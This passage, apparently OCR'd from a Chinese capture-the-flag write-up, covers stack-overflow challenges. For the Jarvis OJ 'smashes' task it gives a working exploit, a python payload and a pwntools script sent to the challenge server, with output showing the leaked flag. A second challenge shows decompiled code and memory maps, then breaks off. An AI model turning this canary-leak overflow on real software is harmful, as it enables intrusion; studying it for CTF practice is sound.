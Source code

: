  
### 题目三 
Jarvis OJ中的smashes，与题目一一样，但是可以直接在本地显示错误信息，只是提供了一个复现场景 
 
 ```java 
  pwn@pwn-PC:~/Desktop$ python -c 'print "A"*536+__import__("struct").pack("<Q",0x400d20) + "\n"'|./smashes.44838f6edd4408a53feb2e2bbfe5b229 
Hello!
What's your name? Nice to meet you, AAAAAA..... 
Please overwrite the flag: Thank you, bye!
*** stack smashing detected ***: PCTF{Here's the flag on server} terminated


  ``` 
  
exp: 
 
 ```java 
  from pwn import *
p=remote("pwn.jarvisoj.com","9877")
p.recvuntil("name?");
flag_addr=0x400d20                                                                                                 
payload='a'*0x218+p64(flag_addr)+'\n'
p.sendline(payload)
p.recvuntil('stack smashing detected ***: ')
flag = p.recvline()
print flag

pwn@pwn-PC:~/Desktop$ python exp.py 
[+] Opening connection to pwn.jarvisoj.com on port 9877: Done
PCTF{57dErr_Smasher_good_work!} terminated

[*] Closed connection to pwn.jarvisoj.com port 9877
​````

# 题目四
main函数中存在栈溢出，源码如下：


  ``` 
  
int __cdecl main(int argc, const char argv, const char envp){ __int64 v4; // rsp+18h char v5; // rsp+20h char v6; // rsp+A0h unsigned __int64 v7; // rsp+128h 
v7 = _readfsqword(0x28u); putenv("LIBC_FATAL_STDERR=1", argv, envp); v4 = fopen64("flag.txt", "r"); if ( v4 ) { fgets(&v5, 32LL, v4); fclose(v4); printf((unsigned __int64)"Interesting data loaded at %p\nYour username? "); fflush(0LL, &v5); read(0LL, &v6, 1024LL); } else { puts("Error leyendo datos"); } return 0;} 
pwn@pwn-PC:~/Desktop$ checksec xpl[*] '/home/pwn/Desktop/xpl' Arch: amd64-64-little RELRO: Partial RELRO Stack: Canary found NX: NX enabled PIE: No PIE (0x400000) 
pwndbg> vmmapLEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA 0x400000 0x4c0000 r-xp c0000 0 /home/pwn/Desktop/xpl 0x6bf000 0x6c2000 rw-p 3000 bf000 /home/pwn/Desktop/xpl 0x6c2000 0x6e8000 rw-p 26000 0 [heap] 0x7ffff7ffa000 0x7ffff7ffd000 r--p 3000 0 [vvar] 0x7ffff7ffd000 0x7ffff7fff000 r-xp 2000 0 [vdso] 0x7ffffffdd000 0x7ffffffff000 rw-p 22000 0 [stack]0xffffffffff600000 0xffffffffff601000 r-xp 1000 0 [vsyscall] 
 